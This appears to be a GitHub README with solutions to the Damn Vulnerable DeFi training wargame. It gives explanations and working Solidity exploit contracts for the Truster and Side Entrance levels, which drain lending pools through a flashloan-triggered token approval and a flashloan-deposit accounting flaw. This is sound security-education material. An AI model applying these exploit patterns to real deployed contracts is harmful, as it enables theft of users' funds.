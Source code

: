 # Damn Vulnerable DeFi Solutions

https://www.damnvulnerabledefi.xyz/
By [@theredguild](https://x.com/theredguild)


## 1- Unstoppable
TODO

## 2- Naive receiver
TODO

## 3- [Truster](https://www.damnvulnerabledefi.xyz/challenges/truster/)

##### Keywords:
- Flashloans
- ERC20
- Arbitrary calls

##### Mission:
- The lending pool is offering flashloan and we should recue the funds by using the flashloan.
- Executing a single transaction
- Deposit the funds into the designated recovery account.

##### Solution:
- Entry point is `flashloan()` function and we have just four parameters to solve the challange.
- Since DVT is an ERC20 token, we can perform the **approve** operation on the tokens during the flashloan run. 
We are not moving the tokens out with the flashloan, instead we are forcing the vulnerable contract to approve our contract.
Thus, after the flashloan we will have the ability to transfer tokens to the recovery address using the `transferFrom` function.
The **amount** and the **borrower** parameter does not matter. We just need to set the **taget** and **data**.

##### Instructions:
```bash
forge test --mp test/truster/Truster.t.sol
```

**The solution contract:**
```solidity
contract PlayerTranser {
    TrusterLenderPool pool;
    DamnValuableToken token;

    constructor(
        TrusterLenderPool _pool,
        DamnValuableToken _token,
        address recovery
    ) {
        pool = _pool;
        token = _token;
        pool.flashLoan({
            amount: 0,
            borrower: address(0),
            target: address(token),
            data: abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            )
        });

        token.transferFrom(address(pool), recovery, 1000000e18);
    }
}
```

**The solution test function:**
```solidity
    function test_truster() public checkSolvedByPlayer {
        new PlayerTranser(pool, token, recovery);
    }
```


## 4- [Side Entrance](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/)
##### Keywords:
- Flashloans
- Ether

##### Mission:
- Similar to the Truster level
- The main difference is that we are not using an ERC20 yoken but Ether.
- Also on this level, we cannot call any arbitrary functions but call only the `execute` function over the flashloan.
- Rescuing all ETH from the pool and depositing it in the designated recovery account.

##### Solution:
- The enry points are **deposit**, **withdraw**, **flashloan**
- To be able to solve the challange, we need to combine those functions.
- First we need to take the fund with flashloan: `pool.flashLoan(address(pool).balance);`
- After we must repay it it has no **receive** or **fallback** function. We can only repay with the deposit function: `pool.deposit{value: msg.value}();`
- When we call the deposit function, the funds will be assigned to us as the caller.
- So, we can use the **withdraw** function and take the funds out
- To be able to receive the funds with the withdraw, we also need a receive function.

##### Instructions:
```bash
forge test --mp test/side-entrance/SideEntrance.t.sol
```

**The solution contract:**
```solidity
contract PlayerSideEntrance {
    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    function run(address recovery) external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(recovery).transfer(address(this).balance);
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
        console.log("Got the funds");
    }

    receive() external payable {}
}
```

**The solution test function:**
```solidity
    function test_sideEntrance() public checkSolvedByPlayer {
        PlayerSideEntrance myContract = new PlayerSideEntrance(pool);
        myContract.run(recovery);
    }
```


#### References
- [ Smart Contract Security Through Damn Vulnerable DeFi v4 | Tincho (The Red Guild) - DSS 101 2024 ](https://www.youtube.com/watch?v=3wWzQJvoXdg)
